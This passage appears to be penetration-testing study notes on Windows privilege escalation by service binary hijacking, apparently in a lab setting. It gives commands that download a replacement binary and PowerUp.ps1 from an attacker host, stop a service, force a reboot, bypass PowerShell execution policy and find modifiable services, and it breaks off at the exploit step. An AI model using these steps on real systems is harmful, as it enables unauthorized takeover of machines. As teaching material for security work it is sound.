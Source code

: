 Once again download file from Python server:

```
iwr -uri http://192.168.119.3/newbinary.exe -Outfile newbinary.exe
```

Use `move` to move files instead of attempting to replace the existing one.

If user has permissions to stop/start the service:

```
net stop mysql
```

Otherwise, check the type of StartMode the service has:

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

Auto would mean reboot needed.

Check privileges of current user:

```
whoami /priv
```

Reboot privileges look like `SeShutdownPrivilege`. State is irrelevant.

Windows reboot command:

```
shutdown /r /t 0
```

### Service Binary Hijacking (PowerUp)

Download PowerUp:

```
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```

Allow PowerShell to execute scripts:

```
powershell -ep bypass
```

Execute PowerUp:

```
PS C:\Users\dave>  . .\PowerUp.ps1
```

Find possible services that could be hijacked:

```
PS C:\Users\dave> Get-ModifiableServiceFile
```

Use the AbuseFunction `Install-ServiceBinary` to exploit:
